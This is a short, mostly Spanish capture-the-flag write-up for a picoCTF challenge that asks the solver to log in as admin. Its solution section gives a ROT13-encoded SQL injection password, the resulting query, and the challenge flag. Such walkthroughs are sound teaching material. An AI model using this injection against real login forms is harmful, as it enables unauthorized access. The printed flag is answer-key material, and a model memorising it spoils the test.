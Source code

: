 ## Objetivo

There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/29132/` ([link](https://jupiter.challenges.picoctf.org/problem/29132/)) or http://jupiter.challenges.picoctf.org:29132. Try to see if you can login as admin!

## Datos de Acceso al Nivel

 ([link](https://jupiter.challenges.picoctf.org/problem/29132/))
## Solucion

```
password: ' be 1==1;
SQL query: SELECT * FROM admin where password = '' or 1==1;'

# Logged in!

Your flag is: picoCTF{3v3n_m0r3_SQL_06a9db19}
```

## Notas Adicionales

Se pone la misma inyeccion sql y nos percatamos de que la pagina lo convierte a rot13, entoncces metemos la misma inyeccion pero ya en rot13

## Referencias
[CyberChef](https://gchq.github.io/CyberChef/)
